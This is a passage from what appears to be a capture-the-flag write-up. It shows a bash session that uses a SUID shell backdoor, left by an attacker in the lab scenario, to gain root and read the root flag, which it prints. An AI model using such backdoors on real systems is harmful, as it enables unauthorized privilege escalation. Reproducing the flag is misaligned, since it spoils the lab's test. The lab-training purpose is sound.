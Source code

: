 The attacker left a suid file as a backdoor for privilege escalation

```bash
james@overpass-production:/home/james$ /home/james/.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
.suid_bash-4.4# cat /root/root.txt
thm{d53b2684f169360bb9606c333873144d}
.suid_bash-4.4#
```

